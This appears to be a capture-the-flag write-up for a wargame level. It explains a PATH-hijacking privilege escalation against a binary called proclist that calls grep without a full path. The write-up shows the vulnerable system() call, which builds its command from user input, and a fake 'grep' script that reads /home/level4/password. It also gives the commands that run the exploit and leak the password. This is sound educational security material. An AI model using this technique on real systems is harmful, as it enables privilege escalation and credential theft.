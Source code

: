 # Level 3

## Details
**Vulnerability:** Relative Path Manipulation

**Memory Security:** None

**Description**

This challenge was a binary called proclist that basically lists a process based on user input. So for example, if I typed "sh", proclist would show any PIDs named "sh". However, in the code, it calls grep without specifying the full path - i.e. /bin/grep. This is called a relative path and the OS searches for the grep binary based on the PATH environment variable. As an attacker, we can modify our PATH environment variable and trick the OS into calling a malicious version of grep. 

Vulnerable Code:
```bash
// Execute the command to list the programs
command = "/bin/ps |grep ";
command += program;
system(command.c_str());
```

## Exploit
Create a bash script called "grep" that reads the password from level4's home directory:
```bash
level3@blackbox:/tmp/hp3$ cat grep
#!/bin/sh
cat /home/level4/password
```

Prepend the tmp directory at the beginning of the PATH environment variable and make "grep" script executable:
```bash
level3@blackbox:/tmp/hp3$ export PATH=/tmp/hp3:$PATH
level3@blackbox:/tmp/hp3$ chmod +x grep
```

Exploit:
```bash
level3@blackbox:/tmp/hp3$ ~/proclist 
Enter the name of the program: ls
BashingSh
```

**Blooper** 

When I was completing this challenge, for some reason in my shell script, using #!/bin/bash resulted in an access error. I'm not entirely sure why this happened as /bin/sh is a symlink to /bin/bash. Also, running sh --version and bash --version produce the same output. What's weird though is if you type sh, it drops you into a sh terminal. Maybe for backwards compatibility? I'm not entirely sure, but I'd love to know the answer!

